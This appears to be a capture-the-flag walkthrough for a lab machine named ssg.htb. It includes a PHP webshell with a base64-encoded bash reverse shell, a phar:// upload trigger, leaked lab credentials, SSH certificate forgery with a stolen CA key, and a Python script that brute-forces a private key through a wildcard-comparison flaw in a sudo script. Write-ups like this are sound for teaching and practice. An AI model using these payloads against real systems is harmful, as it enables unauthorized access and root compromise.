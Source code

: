 ## Foothold

Create webshell.php

```
<?php system('echo -n YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMDEvOTAwMSAwPiYxJwo= | base64 -d | bash'); ?>
```

Zip the webshell in a zip file (you cannot bypass the filter on the webserver)

Upload the zipfile on the server

Get the zipfile location on the server

```
itrc.ssg.htb/uploads/bd8cd6036fa410858f7b72f6370d005d57995afc.zip
```

Prepare the netcat listener

```
nc -lnvp 9001
```

Run the phar wrapper

```
http://itrc.ssg.htb/?page=phar://uploads/bd8cd6036fa410858f7b72f6370d005d57995afc.zip/revshell
```

---

## www-data

db info

```
$dsn = "mysql:host=db;dbname=resourcecenter;";
$dbusername = "jj";
$dbpassword = "ugEG5rR5SG8uPd";
```

unzip the big zipfile you find `msainrinstil` creds

```
msainristil:82yards2closeit
```

unzipping other files will give you some rsa keys (we won't use them anyway)

---

## msainristil

In `~/decommission_old_ca` there are the CA keys. We can use them to sign user's keys and login to the box.

I logged in as root on my box and generated a new keypair with a comment.

```
ssh-keygen -C "root@ssg.htb"
```

I put my `id_rsa.pub` key on the box in `/tmp` and then run this command to sign the key with CA's key

```
msainristil@itrc:~/decommission_old_ca$ ssh-keygen -s ca-itrc -I root -n root -V +52w -f /tmp/id_rsa-cert.pub /tmp/id_rsa.pub
```

Then i put `/tmp/id_rsa-cert.pub` on my box and next i logged in to the box as root with this command

```
┌─[✗]─[root@parrot]─[~/.ssh]
└──╼ #ssh root@ssg.htb -i id_rsa -o CertificateFile=./id_rsa-cert.pub
```

---

## zzinter on port 2222

```
ssh zzinter@ssg.htb -i $HOME/.ssh/id_rsa -o CertificateFile=zzinter-cert.pub -p 2222
```

`sudo -l` tell use we can run `/opt/sign_key.sh` as sudo

```
zzinter@ssg:~$ sudo -l
Matching Defaults entries for zzinter on ssg:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bi
n\:/snap/bin,
    use_pty

User zzinter may run the following commands on ssg:
    (root) NOPASSWD: /opt/sign_key.sh
```

The script looks like it's just signing a key using the specified CA.

The decomissioned CA priv key we got access to before doesn't buy us anything. If we try to use it to sign a key, it won't give us access to the machine.

Trying to find other private ssh keys doesn't buy us anything either.

### ca-cert cracking and signing

We read inside the script his line `echo "Error: Use API for signing with this CA."` which we tried before, but we got some kind of error stating that only admin can sign with API.
At this point what we might try to do, is bruteforcing the key. The comparisong is being done using `==`, that means we can use the wildcard `*` to match any character.
e.g. If we provide a key like `-----BEGIN OPENSSH PRIVATE KEY-----*` it is going to match.
The following handmade script will do the trick.

```
#!/usr/bin/python3
import subprocess
import sys

chars = "qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM0123456789+/=- "
key = "-----BEGIN OPENSSH PRIVATE KEY-----"
ctr = 0

while True:
    if ctr == 0:
        key += "\n"
        print(key)
    if "-----END OPENSSH PRIVATE KEY-----" in key:
        break
    for char in chars:
        f = open("/tmp/temp.txt", "w")
        f.write(key+char+"*")
        f.close()
        command = ["sudo", "/opt/sign_key.sh", "/tmp/temp.txt", "/home/zzinter/.ssh/id_rsa.pub", "support", "support", "1"]
        result = subprocess.run(command, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
        if "Error: Use API for signing with this CA." in result.stdout:
            key += char
            ctr = (ctr + 1) % 70
            break
        elif char == chars[-1]:
            ctr = 0

print(key)
```

We run this script on the target machine and get the CA's private key.

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQAAAKg7BlysOwZc
rAAAAAtzc2gtZWQyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQ
AAAEBexnpzDJyYdz+91UG3dVfjT/scyWdzgaXlgx75RjYOo4Hg8Cudy1ShyYfqzC3ANlgA
cW7Q4MoZuezAE8mNFSmxAAAAIkdsb2JhbCBTU0cgU1NIIENlcnRmaWNpYXRlIGZyb20gSV
QBAgM=
-----END OPENSSH PRIVATE KEY-----
```

Next we take sign_key.sh on our machine and run it to sign our pubkey

```
./sign_key.sh ca-cert $HOME/.ssh/id_rsa.pub root root_user 1
```

and finally we login as root on the target

```
ssh -p 2222 root@ssg.htb -i $HOME/.ssh/id_rsa -o CertificateFile=id_rsa-cert.pub
```

---
